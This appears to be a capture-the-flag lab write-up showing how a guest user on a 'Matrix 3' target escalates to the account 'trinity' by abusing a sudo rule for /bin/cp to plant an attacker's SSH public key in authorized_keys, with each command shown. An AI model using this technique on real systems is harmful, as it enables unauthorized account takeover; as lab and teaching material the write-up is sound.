


# Privilege Escalation: Guest to Trinity

## 1. Identifying Trinity's SSH Directory

The guest account was permitted to execute `/bin/cp` as Trinity without a password.

Trinity's SSH directory was inspected:

```bash
ls -la /home/trinity/.ssh/
```

The directory existed and contained an executable named `xxx`.

## 2. Generating an SSH Key Pair

An Ed25519 SSH key pair was generated on the attacker machine (Kali Linux):

```bash
ssh-keygen -t ed25519 -f ~/.ssh/matrix3_trinity
```

This generated two files:

- `matrix3_trinity` - Private key, retained on Kali Linux.
- `matrix3_trinity.pub` - Public key, to be installed on the target.

## 3. Installing the Public Key

After reconnecting to the target as guest, the public key was copied into a temporary file:

```bash
cat > /tmp/matrix3_trinity.pub
```

The public key was pasted into the file and the input was terminated using `Ctrl+D`.

The sudo permission was then abused to copy the public key into Trinity's `authorized_keys` file:

```bash
sudo -u trinity /bin/cp /tmp/matrix3_trinity.pub /home/trinity/.ssh/authorized_keys
```

This worked because the copy operation was executed with Trinity's privileges.

## 4. Authenticating as Trinity

From Kali Linux, an SSH connection was established using the corresponding private key:

```bash
ssh -i ~/.ssh/matrix3_trinity -p 6464 trinity@192.168.1.11
```

Authentication succeeded without requiring Trinity's account password.

## Result

Access to the target machine was successfully obtained as Trinity, demonstrating how an overly permissive sudo rule could be abused to modify another user's SSH authentication configuration.

## Screenshots


